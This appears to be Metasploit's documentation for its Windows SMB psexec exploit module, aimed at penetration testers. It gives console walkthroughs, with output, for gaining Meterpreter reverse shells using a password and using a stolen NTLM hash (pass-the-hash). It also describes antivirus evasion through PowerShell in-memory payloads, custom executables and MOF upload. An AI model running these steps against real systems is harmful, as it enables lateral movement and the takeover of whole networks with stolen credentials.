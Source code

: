 psexec is one of the most popular exploits against Microsoft Windows. It is a great way to test
password security, and demonstrate how a stolen password could lead to a complete compromise of an
entire corporate network.

The Metasploit Framework actually includes different module types of psexec for different
scenarios. exploit/windows/smb/psexec is the father of them all, and is used the same way
you normally would with any Metasploit exploits.


## Vulnerable Application

---

To be able to use exploit/windows/smb/psexec, you must meet these requirements:

1. You have a valid username/password.
2. Firewall allows SMB traffic.
3. Target is using SMBv1.
4. The remote Windows machine's network security policy allows it. If you see [one of these errors](https://github.com/rapid7/metasploit-framework/wiki/What-does-my-Rex%3A%3AProto%3A%3ASMB-Error-mean%3F), it's an indication it doesn't.

## Verification Steps

---

At the minimum, you should be able use psexec to get a session with a valid credential:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass goodpass
SMBPass => goodpass
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \PTIhqIrQ.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \PTIhqIrQ.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1042) at 2016-03-01 16:51:56 -0600

meterpreter > 
```

## Options

---

By default, exploit/windows/smb/psexec can be as simple as setting the RHOST option, and ready to
go. But in reality, you will probably need to at least configure:

**The SMBUser Option**

A valid Windows username.

**The SMBPass option**

This can be either the plain text version, or the Windows hash.

## Scenarios

---


**Pass the Hash**

One common penetration testing scenario with using psexec is that attackers usually begin by
breaking into a box, manage to the dump the hashes, and use some of those hashes to log into
other boxes on the network using psexec. So let's say I'm in that scenario with the following
stolen hash:

```
meterpreter > hashdump
Administrator:500:e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f:::
```

Without the need to crack the hash, I can simply copy and paste it to the SMBPass option in
psexec, and get a session:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
SMBPass => e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444 
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \QpxKDHyG.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \QpxKDHyG.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1043) at 2016-03-01 17:02:46 -0600

meterpreter > 
```

**Automatic Target**

exploit/windows/smb/psexec comes with multiple targets available, and Automatic is default. What
happens under the hood is if Powershell is detected on the remote machine, it will try Powershell,
otherwise it uses the natvie upload. Each target is explained below.

**Powershell Target**

The Powershell target forces the psexec module to run a Powershell command with a payload embedded
in it. Since this approach does not leave anything on disk, it is a very powerful way to evade
antivirus. However, older Windows machines might not support Powershell by default.

Ideally, you probably want to use the Automatic target setting instead of this. Because the
automatic mode will check if the target supports Powershell or not before it tries, but the
manually set Powershell target won't do that.

**Native Upload Target**

The Native target will attempt to upload the payload (executable) to SYSTEM32 (modifiable with the
SHARE datastore option) , and then execute it with psexec.

This approach is rather reliable, but has a high chance of getting caught by antivirus on the
target. To counter this, you can try to use a template by setting the EXE::Path and EXE::Template
datastore options. Or, you can supply your own custom EXE by setting the EXE::Custom option.

**MOF Upload Target**

The [MOF](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-WbemExec-for-a-write-privilege-attack-on-Windows) target technically does not use psexec: it does not explicitly tell Windows to execute
anything. All it does is uploading two files: the payload (exe) in SYSTEM32, and a managed object
format file in SYSTEM32\wbem\mof\ directory. When Windows sees the mof file in that directory, it
automatically runs it. Once executed, the code inside the mof file basically tells Windows to
execute our payload in SYSTEM32, and we get a session.

Although a neat trick, Metasploit's MOF library only works against Windows XP and
Windows Server 2003. And since it does write files to disk, there is also a high chance of getting
caught by antivirus on the target.

The way to counter antivirus is still the same. You can either use a different template by setting
the EXE::Path and EXE::Template datastore options. Or you can supply your own custom EXE by setting
the EXE::Custom option.

